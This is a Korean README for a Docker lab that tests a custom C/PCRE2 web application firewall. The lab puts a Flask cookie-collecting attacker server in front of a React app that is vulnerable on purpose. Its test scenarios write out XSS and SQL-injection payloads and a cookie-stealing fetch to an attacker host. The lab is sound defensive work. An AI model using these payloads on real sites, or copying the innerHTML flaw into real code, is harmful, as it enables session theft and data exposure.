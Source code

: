 # System_security_report

# 실습 컨테이너 구성 안내

```
┌──────────┐        ┌────────────┐        ┌────────────┐
│  Client  │ ──▶   │  WAF(8080) │ ──▶   │  Nginx      │
└──────────┘        │  ▸ PCRE2   │        │  ▸ 정적 파일│
                    │  ▸ libevent│        │  ▸ 리버스    │
                    └────────────┘        │    프록시   │
                                           └────┬───────┘
                                                ▼
                                     ┌────────────────────┐
                                     │ Frontend(3000)     │
                                     │  ▸ React dev server│
                                     └────────────────────┘

Attacker(4000)은 별도 네트워크 경로로 쿠키를 수집한다.

## 1. attacker_webserver (4000/tcp)
- **기능**: `steal.js` 제공 및 `/collect` 엔드포인트로 피해자 쿠키 수집
- **스택**: Python 3.11 + Flask
- **경로**: `attacker_webserver/`
- **주요 파일**
  | 파일 | 설명 |
  |------|------|
  | `app.py` | `/steal.js`, `/collect` 라우트 구현 |
  | `requirements.txt` | flask 의존성 명시 |
  | `Dockerfile` | 슬림 이미지로 빌드 |

## 2. frontend (3000/tcp)
- **기능**: 취약 React 애플리케이션 (쿼리 파라미터를 그대로 innerHTML 로 렌더링)
- **스택**: Node 18 + CRA(dev server)
- **경로**: `frontend/`
- **특징**: HMR 활성화, 빌드 산출물은 `frontend/project/build`

## 3. nginx (80/tcp)
- **기능**: 정적 빌드 파일 제공 및 백엔드(API) 리버스 프록시 예시 포함
- **경로**: `nginx/`
- **주요 파일**
  | 파일 | 설명 |
  |------|------|
  | `nginx.conf` | 메인 설정 (worker, include) |
  | `conf.d/site.conf` | `location /` 정적 서빙 등 |

## 4. waf_server (8080/tcp)
- **기능**: 리버스 프록시 + Web Application Firewall
- **스택**: C, libevent, PCRE2
- **경로**: `waf_server/`
- **주요 특징**
  1. 요청 헤더·쿼리스트링을 실시간 스트리밍 검사
  2. 다중 정규식(PATTERNS[]) 컴파일 → 순차 매칭
  3. 1회 URL-Decode 후 재검사로 `%3C` 우회 방어
  4. 매칭 시 403 응답 후 세션 종료

## 실행 방법
```bash
docker compose up -d   # 모든 서비스 기동
docker compose logs -f waf | cat  # WAF 차단 로그 실시간 확인
```

## 테스트 시나리오
1. XSS
   ```
   http://localhost:8080/?q=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
   ```
2. SQLi
   ```
   http://localhost:8080/product?id=10%20UNION%20SELECT%20user,pass%20FROM%20users--
   ```
3. 쿠키 탈취
   ```
   http://localhost:8080/?q=%3Cimg%20src%3Dx%20onerror%3D"fetch('http://attacker:4000/collect?c='+document.cookie)"%3E
   ```

각 요청이 403 Forbidden 으로 차단되는지, attacker 로그에 쿠키가 찍히는지 확인한다.

## 개발자 정보
<table>
  <td align="center" width="160px">
      <a href="https://github.com/ssxrxbx"><img height="120px" width="120px" src="https://avatars.githubusercontent.com/ssxrxbx"/></a>
      <br/>
      <a href="https://github.com/ssxrxbx"><strong>성수립</strong></a>
      <br />
  </td>
  <td align="center" width="160px">
      <a href="https://github.com/JeongTJ"><img height="120px" width="120px" src="https://avatars.githubusercontent.com/JeongTJ"/></a>
      <br/>
      <a href="https://github.com/JeongTJ"><strong>정태준</strong></a>
      <br />
  </td> 
</table>
